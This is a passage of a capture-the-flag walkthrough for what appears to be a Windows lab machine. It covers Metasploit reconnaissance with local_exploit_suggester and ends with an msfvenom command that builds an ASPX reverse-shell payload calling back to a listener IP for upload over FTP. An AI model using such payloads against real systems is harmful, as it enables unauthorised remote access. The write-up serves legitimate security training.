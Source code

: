 ```bash
07-24-23  12:34AM               112815 virus2.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```

{% hint style="info" %}
aspx
{% endhint %}

### 2.5 - Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?

We launch msfconsole:

```bash
msfconsole
```

and we search a post/multi/recon exploit:

```bash
search post/multi/recon
```

<figure><img src="../.gitbook/assets/Schermata del 2023-07-24 22-30-38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
local\_exploit\_suggester
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located on the babis user's desktop.

\
Now, we can use msfvenom to generate an exploit to upload using ftp

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f aspx > exploit.aspx
Payload size: 327 bytes
Final size of aspx file: 2748 bytes
```
